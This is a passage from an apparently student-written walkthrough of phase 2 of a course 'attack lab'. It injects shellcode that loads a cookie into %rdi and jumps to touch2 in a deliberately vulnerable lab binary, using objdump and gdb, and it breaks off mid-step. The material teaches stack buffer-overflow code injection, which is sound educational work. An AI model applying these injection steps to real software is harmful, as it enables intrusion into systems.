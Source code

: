# PHASE 2

Phase 2 involves injecting a small code and calling function touch2 while making it look like you passed the cookie as an argument to touch2

If you look inside the ```rtarget_dump.s``` fil and search for touch2, it looks something like this:
```assembly
0000000000401945 <touch2>:
  401945:       48 83 ec 08             sub    $0x8,%rsp
  401949:       89 fa                   mov    %edi,%edx
  40194b:       c7 05 c7 3b 20 00 02    movl   $0x2,0x203bc7(%rip)        # 60551c <vlevel>
  401952:       00 00 00 
  401955:       39 3d c9 3b 20 00       cmp    %edi,0x203bc9(%rip)        # 605524 <cookie>
  40195b:       75 20                   jne    40197d <touch2+0x38>
  40195d:       be d0 34 40 00          mov    $0x4034d0,%esi
  401962:       bf 01 00 00 00          mov    $0x1,%edi
  401967:       b8 00 00 00 00          mov    $0x0,%eax
  40196c:       e8 8f f4 ff ff          callq  400e00 <__printf_chk@plt>
  401971:       bf 02 00 00 00          mov    $0x2,%edi
  401976:       e8 77 05 00 00          callq  401ef2 <validate>
  40197b:       eb 1e                   jmp    40199b <touch2+0x56>
  40197d:       be f8 34 40 00          mov    $0x4034f8,%esi
  401982:       bf 01 00 00 00          mov    $0x1,%edi
  401987:       b8 00 00 00 00          mov    $0x0,%eax
  40198c:       e8 6f f4 ff ff          callq  400e00 <__printf_chk@plt>
  401991:       bf 02 00 00 00          mov    $0x2,%edi
  401996:       e8 33 06 00 00          callq  401fce <fail>
  40199b:       bf 00 00 00 00          mov    $0x0,%edi
  4019a0:       e8 ab f4 ff ff          callq  400e50 <exit@plt>
  ```
If you read the instruction pdf, it says, "Recall that the first argument to a function is passed in register %rdi."

So our goal is to modify the %rdi register and store our cookie in there.

So you have to write some assembly code for that task, create a file called ```phase2.s``` and write the below code, replacing the cookie with yours from the previous phase.
```assembly
  movq $0x3451d86d,%rdi /* move your cookie to register %rdi */
  retq                  /* return */
```
Now you need the byte representation of the code you wrote above, compile it with gcc then dissasemble it.

```ssh
gcc -c phase2.s
objdump -d phase2.o  > phase2.d 
```
Now open the file phase2.d and you will get something like below

```ssh
Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 6d d8 51 34 	mov    $0x3451d86d,%rdi
   7:	c3                   	retq   
```
The byte representation of the assembly code is ```48 c7 c7 6d d8 51 34 c3```.

Now we need to find the address of rsp register:

Run ctarget through gdb
```gdb ctarget```

set a breakpoint at getbuf
```b getbuf```

run ctarget
```r```

Dissasemble it
```disas```

You will get something like below:
```assembly
=> 0x0000000000401903 <+0>:	sub    $0x18,%rsp
   0x0000000000401907 <+4>:	mov    %rsp,%rdi
   0x000000000040190a <+7>:	callq  0x401b8d <Gets>
   0x000000000040190f <+12>:	mov    $0x1,%eax
   0x0000000000401914 <+17>:	add    $0x18,%rsp
   0x0000000000401918 <+21>:	retq   
End of assembler dump.
```
Now we need to run the code until the instruction just below ```callq 0x401ab6 <Gets>``` so you will do something like
